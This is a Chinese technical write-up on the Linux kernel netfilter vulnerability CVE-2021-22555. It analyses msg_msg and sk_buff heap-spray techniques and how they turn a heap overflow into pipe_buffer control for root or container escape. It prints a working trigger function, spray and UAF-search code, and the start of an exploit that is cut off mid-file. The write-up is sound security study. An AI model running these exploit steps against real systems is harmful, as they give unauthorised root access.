



CVE-2021-22555
本文详细分析了使用 msg_msg sk_buff 堆喷的方式。并且简述了 CVE-2021-22555 的利用过程
Table of Contents
1. 总结
触发漏洞需要 CPA_NET_ADMIN ，我们先 unshare 出自己的名称空间，把权限给自己拉满
漏洞出现在内核的 netfilter 子系统，是一个防火墙系统。用户层中，iptable 即使通过该子系统实现的。
这个漏洞由 setsockopt 触发，在调用链中的 xt_compat_target_from_user 中，由于假设了一个不会对齐的 data 字段会 8 字节对齐，在后面进行 memset 对齐时，可以实现最多 7 个字节的溢出写零。这篇文章不会详细分析漏洞的成因，网络上已经有许多优秀的文章完整分析了。一下是触发漏洞的函数段，可以实现分配 kmalloc-4096 的内存块，并且溢出 2 字节写零。仅仅对于学习一些堆喷技巧来说，暂时知道这些就够了。
void triggerOob(int socket_fd) { // adapted from // https://github.com/google/security-research/security/advisories/GHSA-xxx5-8mvq-3528 struct __attribute__((__packed__)) { struct ipt_replace replace; struct ipt_entry entry; struct xt_entry_match match; char pad[0xFB6 - 172 - 4]; struct xt_entry_target target; } data = {0}; data.replace.num_counters = 1; data.replace.num_entries = 1; data.replace.size = sizeof(data.entry) + sizeof(data.match) + sizeof(data.pad) + sizeof(data.target); data.entry.next_offset = sizeof(data.entry) + sizeof(data.match) + sizeof(data.pad) + sizeof(data.target); data.entry.target_offset = sizeof(data.entry) + sizeof(data.match) + sizeof(data.pad); data.match.u.user.match_size = sizeof(data.match) + sizeof(data.pad); strcpy(data.match.u.user.name, "icmp"); data.match.u.user.revision = 0; data.target.u.user.target_size = sizeof(data.target); strcpy(data.target.u.user.name, "NFQUEUE"); data.target.u.user.revision = 1; // partial overwrite the next object if (setsockopt(socket_fd, SOL_IP, IPT_SO_SET_REPLACE, &data, sizeof(data))) { if (errno == ENOPROTOOPT) { err_exit("ip_tables module is not loaded!\n"); } printf("error: %d\n", errno); perror("[-] setsockopt"); } }
将这个漏洞转换为 UAF 并最后完成利用，用到了现在 kernel 中比较常见的利用手段，也就是堆喷。而在内核中堆喷的时候，就有 sk_buff 和 msg_msg 两个比较好用的结构体。
一般对于内核中的堆溢出，我们也是想办法转为 UAF。由于内核堆分配器 slub 是一个复杂的系统，而且有 random list、xor key 等各种各样的保护措施，想要通过 slub 来利用，可谓非常困难，而且有些得不偿失。
在内核提权中，我们有对内核的较多的交互能力，所以其实可以利用内核中的结构体来辅助利用。 msg_msg 和 sk_buff 就是两个常用的结构体。
不过由于内核堆分配器存在随机性，所以往往需要进行堆喷来占位。
我们的做法就是
- 堆喷
msg_msg，让内存中出现大量连续的msg_msg结构体。 - free 掉几个
msg_msg，让连续的区块中出现几个空洞。 - 通过
setsockopt占位到空洞中。通过溢出修改下一个msg_msg的m_list.next指针。此时获得两根指向同一对象的指针 - free 其中一根，获得一根悬垂指针。
- 通过
sk_buff加悬垂指针实现对pipe_buffer结构体的完全控制 - 通过
pipe_buffer完成提权
2. msg_msg 堆喷 exploit_trick
2.1. 结构体定义
msg_msg 结构体在内核中用于实现 System-V IPC 中的消息队列。在内核中消息队列是一个双向链表，每个 msg_msg 结构体是链表中的节点，代表一个消息。结构体定义如下
/* one msg_msg structure for each message */ struct msg_msg { struct list_head m_list; long m_type; size_t m_ts; /* message text size */ struct msg_msgseg *next; void *security; /* the actual message follows immediately */ };
单个 msg_msg 结构体最多占一页。
m_list是用来组成消息队列的双链表m_type由用户指定，用来实现一个简单的消息优先级 具体的，在使用msgsnd发送消息时，传入的结构为strcut {long m_type; char m_text[];}，这个m_type就会存到对应的msg_msg中，在msgrcv时也会传入一个msgtyp，对于msgtype的取值有以下三种情况msgtype == 0：返回队列中的第一个消息msgtype > 0：返回队列中msg_msg->m_type == msgtype的第一个消息msgtype < 0：返回队列中所有满足msg_msg->m_type小于等于msgtype的消息中m_type最小的一个
m_ts表示这个消息的总长度security是msg_msg的安全标识符，主要用于 LSM
对于结构体中类型为 struct msg_msgseg* 的 next 指针。
struct msg_msgseg { struct msg_msgseg *next; /* the next part of the message follows immediately */ };
这个和 msg_msg 类似，也是开头为元数据，之后接着用户数据。用于在单个消息大于 PAGE_SIZE - sizeof(struct msg_msg) （即 0xFD0）时，由于 msg_msg 最多只能占一页，所以多出来的数据就存储在 next 指针指向的 msg_msgseg 中。一个 msg_msgseg 最多能存 0xFF8 字节数据，如果还不够，就继续分配新的 msg_msgseg

结构大概就是这样。 msg_queue 就是用来管理单个消息队列的结构体。
/* one msq_queue structure for each present queue on the system */ struct msg_queue { struct kern_ipc_perm q_perm; time64_t q_stime; /* last msgsnd time */ time64_t q_rtime; /* last msgrcv time */ time64_t q_ctime; /* last change time */ unsigned long q_cbytes; /* current number of bytes on queue */ unsigned long q_qnum; /* number of messages in queue */ unsigned long q_qbytes; /* max number of bytes on queue */ struct pid *q_lspid; /* pid of last msgsnd */ struct pid *q_lrpid; /* last receive pid */ struct list_head q_messages; struct list_head q_receivers; struct list_head q_senders; } __randomize_layout;
msg_msg 头部占位 48 byte，后面的数据由用户填充，所以通过 msg_msg 我们可以占位 kmalloc-64 到 kmalloc-1k 中的所有堆块。并且只有开头 48 byte 不可控。
2.2. msg 的读取
读取消息队列使用的是 msgrcv 系统调用。原型为
ssize_t msgrcv(int msqid, void *msgp, size_t msgsz, long msgtyp, int msgflg);
msqid 是消息队列的 id， msgtyp 是前面提到的消息种类，用于实现简单的优先级。 msgflg 是读取的 flag，我们会用到的是 MSG_COPY 。
进入内核最后会调用到 do_msgrcv ，简单看一下他的实现
...
if (msgflg & MSG_COPY) {
if ((msgflg & MSG_EXCEPT) || !(msgflg & IPC_NOWAIT))
return -EINVAL;
copy = prepare_copy(buf, min_t(size_t, bufsz, ns->msg_ctlmax));
if (IS_ERR(copy))
return PTR_ERR(copy);
}
mode = convert_mode(&msgtyp, msgflg);
...
如果我们在 msgrcv 时指定了 MSG_COPY 的 flag，那么开头会先进入上面的代码片段。
在这里，会调用 prepare_copy 做拷贝
/* * This function creates new kernel message structure, large enough to store * bufsz message bytes. */ static inline struct msg_msg *prepare_copy(void __user *buf, size_t bufsz) { struct msg_msg *copy; /* * Create dummy message to copy real message to. */ copy = load_msg(buf, bufsz); if (!IS_ERR(copy)) copy->m_ts = bufsz; return copy; }
struct msg_msg *load_msg(const void __user *src, size_t len) { struct msg_msg *msg; struct msg_msgseg *seg; int err = -EFAULT; size_t alen; msg = alloc_msg(len); if (msg == NULL) return ERR_PTR(-ENOMEM); alen = min(len, DATALEN_MSG); if (copy_from_user(msg + 1, src, alen)) goto out_err; for (seg = msg->next; seg != NULL; seg = seg->next) { len -= alen; src = (char __user *)src + alen; alen = min(len, DATALEN_SEG); if (copy_from_user(seg + 1, src, alen)) goto out_err; } err = security_msg_msg_alloc(msg); if (err) goto out_err; return msg; out_err: free_msg(msg); return ERR_PTR(err); }
static struct msg_msg *alloc_msg(size_t len) { struct msg_msg *msg; struct msg_msgseg **pseg; size_t alen; alen = min(len, DATALEN_MSG); msg = kmalloc(sizeof(*msg) + alen, GFP_KERNEL_ACCOUNT); if (msg == NULL) return NULL; msg->next = NULL; msg->security = NULL; len -= alen; pseg = &msg->next; while (len > 0) { struct msg_msgseg *seg; cond_resched(); alen = min(len, DATALEN_SEG); seg = kmalloc(sizeof(*seg) + alen, GFP_KERNEL_ACCOUNT); if (seg == NULL) goto out_err; *pseg = seg; seg->next = NULL; pseg = &seg->next; len -= alen; }
load_msg 开头调用 alloc_msg 生成存储 dummy copy 的结构体对象。阅读 alloc_msg 的代码，这里我们可以看到在分配 dummy copy 使用的 GFP_KERNEL_ACCOUNT flag，代表这是个与用户数据相关联的对象。这个函数做的就是根据要拷贝的长度生成合适的 msg_msg 对象：
- 如果 len < DATALEN_MSG(0xFD0)，那么单个
msg_msg就能装下，不需要设置 next 指针 - 如果 len > DATALEN_MSG(0xFD0)，那么就会生成一个合适的
msg_msgseg链表
load_msg 后面会开始从真正的 msg_msg 中复制数据。然后会执行
err = security_msg_msg_alloc(msg);
这里是 LSM（Linux Security Modules）的一个桩点。前面提到 CONFIG_LSM 就是因为我在这里被坑了—— SELinux 直接让他在这里出了段错误，还让我以为是 exp 写错了。
通过前面的 prepare_copy 后，会先找寻到 msqid 代表的消息队列，并从中找到对应的消息。
mode = convert_mode(&msgtyp, msgflg); rcu_read_lock(); msq = msq_obtain_object_check(ns, msqid); if (IS_ERR(msq)) { rcu_read_unlock(); free_copy(copy); return PTR_ERR(msq); } for (;;) { struct msg_receiver msr_d; msg = ERR_PTR(-EACCES); if (ipcperms(ns, &msq->q_perm, S_IRUGO)) goto out_unlock1; ipc_lock_object(&msq->q_perm); /* raced with RMID? */ if (!ipc_valid_object(&msq->q_perm)) { msg = ERR_PTR(-EIDRM); goto out_unlock0; } msg = find_msg(msq, &msgtyp, mode);
如果找到了目标消息，进入下面的 if 中
if (!IS_ERR(msg)) { /* * Found a suitable message. * Unlink it from the queue. */ if ((bufsz < msg->m_ts) && !(msgflg & MSG_NOERROR)) { msg = ERR_PTR(-E2BIG); goto out_unlock0; } /* * If we are copying, then do not unlink message and do * not update queue parameters. */ if (msgflg & MSG_COPY) { msg = copy_msg(msg, copy); goto out_unlock0; } list_del(&msg->m_list); msq->q_qnum--; msq->q_rtime = ktime_get_real_seconds(); ipc_update_pid(&msq->q_lrpid, task_tgid(current)); msq->q_cbytes -= msg->m_ts; atomic_sub(msg->m_ts, &ns->msg_bytes); atomic_dec(&ns->msg_hdrs); ss_wakeup(msq, &wake_q, false); goto out_unlock0; }
这里就会根据有没有指定 MSG_COPY flag 来选择是否 unlink 找到的 msg，如果指定了就会通过 copy_msg 函数把找到的 msg 的内容拷贝到之前分配的“dummy msg” copy 中，然后通过 goto 跳过 unlink。 copy_msg 的实现很 trivial，这里就不细说了。但是要注意他会把拷贝的目标返回，也就是这个函数会把 copy 返回，然后通过 msg = copy(msg, copy) 在 goto 之后就会 free 掉 copy 了。
out_unlock0: ipc_unlock_object(&msq->q_perm); wake_up_q(&wake_q); out_unlock1: rcu_read_unlock(); if (IS_ERR(msg)) { free_copy(copy); return PTR_ERR(msg); } bufsz = msg_handler(buf, msg, bufsz); free_msg(msg); return bufsz; }
这里会通过回调来把 msg 里的内容拷贝到用户 buf 中。通过 msgrcv 系统调用进入会调用的是 do_msg_fill 。实现比较 trivial，就是一些 copy_to_user 。然后再通过 free_msg 把消息 free 掉
void free_msg(struct msg_msg *msg) { struct msg_msgseg *seg; security_msg_msg_free(msg); seg = msg->next; kfree(msg); while (seg != NULL) { struct msg_msgseg *tmp = seg->next; cond_resched(); kfree(seg); seg = tmp; } }
从代码中可以发现整个过程中除了刚才提到的 LSM 之外并没有什么安全检查，在带上 MSG_COPY flag 时，也 不会使用 找到的 msg_msg 结构体的 m_list 这个字段。所以如果我们可以做到改大 msg_msg 的 m_ts 字段就可以做到越界读，非常好的一点是在读取 msg 的时候 ，所以不需要做 leak。另外如果能够同时控制 msg_msg 的 next 和 m_ts 字段，也可以做到任意地址读。
2.3. msg 的发送
用户需要发送的消息，在 msgsnd 系统调用过程中也会通过之前提到的 load_msg 函数来生成 msg_msg 结构体。而其他关于 msg 发送的实现，其实对于漏洞利用来说并不是很重要，这里就不再赘述。
另外需要注意的是，在发送 msg 的时候 msgtype 不能制定为 0，否则会失败。毕竟之前说了 msgrcv 的时候传入 msgtype 为 0 的时候是返回第一个消息，所以消息的类型不能设置为 0。
2.4. 堆喷的方式
从上面我们可以看到， msg_msg 通过 GPF_KERNEL_ACCOUNT 分配，可以用于占位所有同样 flag 的堆块，并且在 linux 5.14 前没有和 GFP_KERNEL 隔离，此时也可以占位这些堆块。
通过堆喷，我们主要希望能把堆溢出和 double free 的问题转换成 UAF。
2.4.1. 溢出的 case
我们考虑可以堆溢出写 0 的 case：我们可以尝试覆盖 msg_msg->m_list.next 指针，这个指针在 msg_msg 链表中会指向消息队列中的下一个消息。通过写零就可以让他指向别的对象，然后通过 msgrcv 就可以把该对象 free 掉了。这样就可以做到 double free 和 UAF。由于 msgrcv 的实现中并没有什么合法性检查，被 free 对象只需要能够满足 msg_msg->next 字段为 0 就可以了。
溢出 3 字节以上范围太大，不好控制，我们选择溢出两字节，这样就可以让 m_list.next 指向每 0x10000 的首部了。堆喷时我们创建大量 msg_qeuen ，每个队列中创建两个消息，第一个消息大小 (0x1000 - sizeof(struct msg_msg)) ，这样 msg_msg 结构体就正好占满了一页；第二个消息大小 0x400 - sizeof(struct msg_msg) ，这个大小是为了后续喷射 pipe_buffer 方便设置的，如果选用别的结构体辅助利用，也可以使用别的大小，只要满足能整除 0x1000 就可以了。然后通过溢出写零让 m_list.next 指向一个别的队列的第二个消息。这样我们就获得了两个指向同一个对象的指针。

获得了两个指针后，我们先通过搜索找出 victim second msg 的 msqid ，因为消息是我们写入的，所以可以像下面这样在之前喷射的时候给每个消息打上唯一的标签
void secondMsgSend(int msgid, const char *content, int msgtype) { struct second_msg msg; msg.message_type = msgtype; memcpy(msg.message, content, SECOND_MSG_SIZE); if (msgsnd(msgid, &msg, SECOND_MSG_SIZE, 0)) { err_exit("[-] msgsnd"); } } for (int i = 0; i < N_SPRAY_MSGMSG; i++) { ((int *)buf)[0] = i; secondMsgSend(msgids[i], buf, 1); }
然后通过 MSG_COPY 读出来。就可以获得 victim 和 oobed 消息的 msqid 了。
// find the msg that can be uaf int first_id = -1, second_id = -1; for (int i = 0; i < N_SPRAY_MSGMSG; i++) { if (i % HOLE_STEP == 0) { continue; } if (msgrcv(msgids[i], buf, SECOND_MSG_SIZE, 1, MSG_COPY | IPC_NOWAIT) < 0) { err_exit("[-] msgrcv"); } if (((int *)buf)[1] != i) { first_id = i; second_id = ((int *)buf)[1]; printf("[+] found UAF target: first id 0x%x, second id 0x%x\n", first_id, second_id); } }
找到了两个 id 之后，我们通过不带 MSG_COPY flag 的 msgrcv free 掉 victim second msg ，此时我们会丢失一个指向目标的指针，但是还残留了一个，通过这根指针就可以做到 UAF 了。
到这里基本就是使用 msg_msg 堆喷的方法了，在有堆溢出的情况下，可以把它转换成 UAF，然后通过别的结构体最后完成利用。
2.4.2. double free 的 case
如果漏洞是一个 double free，需要首先看能被 double free 的 victim 对象的大小和 kmalloc 分配 flag，只要在 kmalloc-64 到 kmalloc-1024 中，并且没有与 GFP_KERNEL_ACCOUNT 隔离，就都可以尝试使用 msg_msg 占位，具体的，先 free 一次 victim 对象，然后喷射消息队列，仿照上面溢出的 case，也使用两个消息，第一个消息使用和 victim 不一样的大小，保证不会占位到 victim 中，第二个消息使用和 victim 同样的大小。占位成功后使用 double free 再 free 一次就同样可以实现 UAF 了。

不过如果有 double free 并且条件合适，也许不需要使用 msg_msg 来堆喷，直接用后面要说的 sk_buff 堆喷就可以了（比如以 CVE-2021-22555 的利用来说，使用 msg_msg 其实就是为了把堆溢出转化为对 sk_buff 的一个类似于 double free 的效果并最后实现 UAF）。
3. sk_buff 堆喷 exploit_trick
3.1. 结构体定义
sk_buff 在内核中用来表示网络中的一个数据包， sk_buff 本身并不存储数据包，但是会有四个指针指向数据包。 sk_buff 结构体定义比较庞大，但是我们实际利用时并不会对 sk_buff 动手，只会利用他指向的数据包而已。大致的结构为
// in strcut sk_buff ... /* These elements must be at the end, see alloc_skb() for details. */ sk_buff_data_t tail; sk_buff_data_t end; unsigned char *head, *data; ...

我们在利用时，使用的就是右侧他指向的数据包了。总的来说 sk_buff 的堆喷和 msg_msg 很像，不同点就在于他是尾部不可控，而 msg_msg 是头部不可控。同时 sk_buff 尾部会填充 320 byte 大小的 struct skb_shared_info ，这个是不可控的。由于尾部一定会填充 320 byte 的大小的数据，所以我们只能用它喷射 malloc-512 以上的堆块。
3.2. 分配 sk_buff
从利用的角度来说，直接把 sk_buff 和他的数据包当成黑盒用来喷射其实就行，但是源码还是可以看一下的。
一个 network buffer 通过 alloc_skb 分配，该函数是 __alloc_skb 的 wrapper
/** * __alloc_skb - allocate a network buffer * @size: size to allocate * @gfp_mask: allocation mask * @flags: If SKB_ALLOC_FCLONE is set, allocate from fclone cache * instead of head cache and allocate a cloned (child) skb. * If SKB_ALLOC_RX is set, __GFP_MEMALLOC will be used for * allocations in case the data is required for writeback * @node: numa node to allocate memory on * * Allocate a new &sk_buff. The returned buffer has no headroom and a * tail room of at least size bytes. The object has a reference count * of one. The return is the buffer. On a failure the return is %NULL. * * Buffers may only be allocated from interrupts using a @gfp_mask of * %GFP_ATOMIC. */ struct sk_buff *__alloc_skb(unsigned int size, gfp_t gfp_mask, int flags, int node) { struct kmem_cache *cache; struct skb_shared_info *shinfo; struct sk_buff *skb; u8 *data; bool pfmemalloc; cache = (flags & SKB_ALLOC_FCLONE) ? skbuff_fclone_cache : skbuff_head_cache; if (sk_memalloc_socks() && (flags & SKB_ALLOC_RX)) gfp_mask |= __GFP_MEMALLOC; /* Get the HEAD */ skb = kmem_cache_alloc_node(cache, gfp_mask & ~__GFP_DMA, node); if (!skb) goto out; prefetchw(skb); /* We do our best to align skb_shared_info on a separate cache * line. It usually works because kmalloc(X > SMP_CACHE_BYTES) gives * aligned memory blocks, unless SLUB/SLAB debug is enabled. * Both skb->head and skb_shared_info are cache line aligned. */ size = SKB_DATA_ALIGN(size); size += SKB_DATA_ALIGN(sizeof(struct skb_shared_info)); data = kmalloc_reserve(size, gfp_mask, node, &pfmemalloc); if (!data) goto nodata; /* kmalloc(size) might give us more room than requested. * Put skb_shared_info exactly at the end of allocated zone, * to allow max possible filling before reallocation. */ size = SKB_WITH_OVERHEAD(ksize(data)); prefetchw(data + size); /* * Only clear those fields we need to clear, not those that we will * actually initialise below. Hence, don't put any more fields after * the tail pointer in struct sk_buff! */ memset(skb, 0, offsetof(struct sk_buff, tail)); /* Account for allocated memory : skb + skb->head */ skb->truesize = SKB_TRUESIZE(size); skb->pfmemalloc = pfmemalloc; refcount_set(&skb->users, 1); skb->head = data; skb->data = data; skb_reset_tail_pointer(skb); skb->end = skb->tail + size; skb->mac_header = (typeof(skb->mac_header))~0U; skb->transport_header = (typeof(skb->transport_header))~0U; /* make sure we initialize shinfo sequentially */ shinfo = skb_shinfo(skb); memset(shinfo, 0, offsetof(struct skb_shared_info, dataref)); atomic_set(&shinfo->dataref, 1); if (flags & SKB_ALLOC_FCLONE) { struct sk_buff_fclones *fclones; fclones = container_of(skb, struct sk_buff_fclones, skb1); skb->fclone = SKB_FCLONE_ORIG; refcount_set(&fclones->fclone_ref, 1); fclones->skb2.fclone = SKB_FCLONE_CLONE; } skb_set_kcov_handle(skb, kcov_common_handle()); out: return skb; nodata: kmem_cache_free(cache, skb); skb = NULL; goto out; } EXPORT_SYMBOL(__alloc_skb);
这个函数中我们主要关心他对堆的操作，首先可见 sk_buff 是在这里分配的
// in __alloc_skb skb = kmem_cache_alloc_node(cache, gfp_mask & ~__GFP_DMA, node);
这里使用的不再是 kmalloc 而是 kmem_cache_alloc_node 了，这是从指定 node 的特定 cache 中分配内存块的函数。 node 是内核对主存的抽象，主要用于 NUMA 计算机。而 cache 在这里可能是 skbuff_fclone_cache 和 skbuff_head_cache 中的一个：
// in __alloc_skb cache = (flags & SKB_ALLOC_FCLONE) ? skbuff_fclone_cache : skbuff_head_cache;
所以他是被隔离的，不过数据包并不是
// in __alloc_skb size = SKB_DATA_ALIGN(size); size += SKB_DATA_ALIGN(sizeof(struct skb_shared_info)); data = kmalloc_reserve(size, gfp_mask, node, &pfmemalloc);
可见他是通过 kmalloc_reserve 来分配的，最后仍然会通过 kmalloc 分配，通过创建一对 socket ，然后发送数据包，我们就几乎可以做到内核中的任意大小对象分配。不过可以看到上面会加上 struct skb_shared_info 的大小，所以其实只能做到 kmalloc-512 以上的任意大小对象分配。
后面也会对 struct skb_shared_info 进行初始化
static inline unsigned char *skb_end_pointer(const struct sk_buff *skb) { return skb->head + skb->end; }
#define skb_shinfo(SKB) ((struct skb_shared_info *)(skb_end_pointer(SKB))) /* make sure we initialize shinfo sequentially */ shinfo = skb_shinfo(skb); memset(shinfo, 0, offsetof(struct skb_shared_info, dataref));
3.3. 释放 sk_buff
释放一个数据很容易，把它读取掉就可以来。内核中使用 kfree_skb 来实现对一个数据包的释放
void kfree_skb(struct sk_buff *skb) { if (!skb_unref(skb)) return; trace_kfree_skb(skb, __builtin_return_address(0)); __kfree_skb(skb); } EXPORT_SYMBOL(kfree_skb);
/** * __kfree_skb - private function * @skb: buffer * * Free an sk_buff. Release anything attached to the buffer. * Clean the state. This is an internal helper function. Users should * always call kfree_skb */ void __kfree_skb(struct sk_buff *skb) { skb_release_all(skb); kfree_skbmem(skb); } EXPORT_SYMBOL(__kfree_skb);
/* Free everything but the sk_buff shell. */ static void skb_release_all(struct sk_buff *skb) { skb_release_head_state(skb); if (likely(skb->head)) skb_release_data(skb); }
可见一层层调用最后通过 skb_release_all 来 free 掉一个 sk_buff ，我们并不关心他对 struct sk_buff 的“壳”做了什么，只关心他是怎么 free 掉数据包的，可见是通过 skb_release_data 实现
static void skb_release_data(struct sk_buff *skb) { struct skb_shared_info *shinfo = skb_shinfo(skb); int i; if (skb->cloned && atomic_sub_return(skb->nohdr ? (1 << SKB_DATAREF_SHIFT) + 1 : 1, &shinfo->dataref)) return; for (i = 0; i < shinfo->nr_frags; i++) __skb_frag_unref(&shinfo->frags[i]); if (shinfo->frag_list) kfree_skb_list(shinfo->frag_list); skb_zcopy_clear(skb, true); skb_free_head(skb); }
前面的都是对尾部附着的 skb_shared_info 结构体进行操作，最后还是通过 skb_free_head 进行 free 。
static void skb_free_head(struct sk_buff *skb) { unsigned char *head = skb->head; if (skb->head_frag) skb_free_frag(head); else kfree(head); }
3.4. 堆喷的方式
做法很朴素，首先创建大量 socket pair 用来互相收发数据包。然后喷射时通过写端向每个 socket 中写入数据包，此时就进行了多次特定大小的内存分配，需要 free 时就从读端读出即可。以下是一个简单的 demo 。
int sk_buff_spray(int sk_socket[SOCKET_SUM][2], void *buf, size_t size) { for (int i = 0; i < SOCKET_SUM; i++) { for (int j = 0; j < SK_BUFF_IN_ONE_SOCKET; j++) { if (write(sk_socket[i][0], buf, size) != size) { perror("[-] write sk_buff"); return -1; } } } return 0; } int sk_buff_free(int sk_socket[SOCKET_SUM][2], void *buf, size_t size) { for (int i = 0; i < SOCKET_SUM; i++) { for (int j = 0; j < SK_BUFF_IN_ONE_SOCKET; j++) { if (read(sk_socket[i][1], buf, size) != size) { perror("[-] read sk_buff"); return -1; } } } return 0; }
这个堆喷的好处是头部数据即可控，而且还可以读出头部数据。所以如果能够做到对 sk_buff 指向的数据包 UAF ，利用就很容易了（比如对于 kmalloc-1024 来说，就有有一个基于 dirty pipe 的，非常好用的 pipe_buffer 原语。另一方面，通过 pipe_buffer 内部的虚表，也可以实现内核 rop）。
4. 结合 msg_msg sk_buff 转化堆溢出 exploit_trick
刚才说了，通过 msg_msg 堆喷，我们可以把堆溢出转化为 UAF（获得一根指向已被 free 的内存块的悬垂指针）。那么能不能把这个 UAF 变成对 pipe_buffer 的完全控制呢？我们可以把 sk_buff 数据包占位到 victim second msg 上，然后用悬垂指针 free 掉 victim second msg，再喷射 pipe_buffer 占位到此处，就可以用 sk_buff 来完全控制 pipe_buffer 了。
不过用悬垂指针 free victim second msg ，需要经过一次 unlink 操作（通过 list_del 实现），虽然不像 glibc 一样有一堆检查，但是我们至少要伪造一个合法的地址避免错误，也就是说我们需要 leak 出内核堆地址。
由于 sk_buff 可以控制堆块的头部数据，所以我们可以通过喷射占位到上面 msg_msg 的 victim second msg 上，改写其 m_ts 字段（表示消息的长度），这样就可以越界读出 victim second msg 的下一个 msg 的 m_list.prev 和 m_list.next 指针值了。

其中 m_list.prev 指向的是 victim first msg 的下一个 msg 。拿到这个指针就有一个内核堆地址了。而且其中的数据无关紧要，可以作为 unlink 时的 prev 和 next 值。
在获得了堆地址后，再一次使用 sk_buff 堆喷，写入一个“合法”的 m_list ，通过悬垂指针 free 掉 victim second msg 。此时我们仍然可以通过 sk_buff 来控制这个堆块。并且由于被 free 掉了，大小为 kmalloc-1024 ，我们申请大量的 pipe 就可以喷射 pipe_buffer 并占位到这个堆块上了（ pipe_buffer 是内核中实现管道通信的核心数据结构，每个大小 40 bytes ，代表管道文件的一个页。而 linux 中管道默认大小为 16 个页，所以创建一个管道就会申请一个 640 byte 的内存块，也就是 kmalloc-1024 了）。
此时通过读出 sk_buff 就可以读取到 pipe_buffer 中的数据（占位到堆块中的会是一个 pipe_buffer 数组）。
struct pipe_buffer { struct page *page; unsigned int offset, len; const struct pipe_buf_operations *ops; unsigned int flags; unsigned long private; };
其中有一张虚表 pipe_buf_operations ，可以让我们 leak 内核基地址。（虽然可能并不需要）
获取 pipe_buffer 的数据后，我们再一次喷射 sk_buff ，又会占位到原来的 pipe_buffer 中，此时写入伪造数据即可通过 pipe_buffer 完成利用。这里有两种方法：
- 通过劫持虚表
ops字段来 rop ，主要针对需要容器逃逸的情况 rop 时执行switch_task_namespaces(find_task_by_vpid(1), init_nsproxy)即可改变名称空间完成逃逸 - 对于 linux 5.8=+：修改
flags字段，添加上PIPE_BUF_FLAG_CAN_MERGE标识 对于 linux 5.8-：劫持ops字段，使之指向struct anon_pipe_buf_ops然后通过splice系统调用直接改写 root owned suid 程序文件（即 CVE-2022-0847 dirty pipe ） 这个我是看到协会学长 @veritas501 的 pipe-primitive 学到的（太强啦）。
5. 环境搭建
这个环境搭建折腾了我很久，我选用的是内核版本是 5.11.14，config 时要把 CONFIG_IP_NF** 和 CONFIG_NETFILTER** 相关的都打开来。但是直接该 .config 编译出来的一直在 setsockopt 上报错。所以我只好 make menuconfig 然后手动一个个打开了。这里我估计是因为我用的是 wsl，所以默认 config 上有一些问题。
由于触发漏洞需要具有 CPA_NET_ADMIN 权限，所以需要开启 CONFIG_USER_NS 和 CONFIG_NET_NS ，这样我们才能通过 unshare 出名称空间然后获得该权限。
同时要注意，要开启 CONFIG_CHECKPOINT_RESTORE 这个选项。不然在搜索 msg_msg 的时候会返回 ENOSYS 。
另外，对于 linux security modules 的开启（ CONFIG_LSM ），也要注意。我最后是参考的 bsauce 师傅提供的内核 config。（应该是默认就是这个，可能因为我是在 wsl 中编译的，所以配置的时候自动配进去了一堆别的模块，导致我在 oob read 的时候一直在 security_msg_queue_msgrcv 中 crash。）
6. exp
// gcc -m32 -static exp.c -o exp #define _GNU_SOURCE #include <fcntl.h> #include <assert.h> #include <unistd.h> #include <sched.h> #include <errno.h> #include <stdio.h> #include <stdlib.h> #include <string.h> #include <sys/types.h> #include <sys/ipc.h> #include <sys/msg.h> #include <sys/socket.h> #include <net/if.h> #include <netinet/in.h> #include <linux/netfilter_ipv4/ip_tables.h> struct list_head { u_int64_t next, prev; }; struct msg_msgseg { u_int64_t next; /* the next part of the message follows immediately */ }; struct msg_msg { struct list_head m_list; u_int64_t m_type; u_int64_t m_ts; /* message text size */ u_int64_t next; // struct msg_msgseg* u_int64_t security; /* the actual message follows immediately */ }; struct 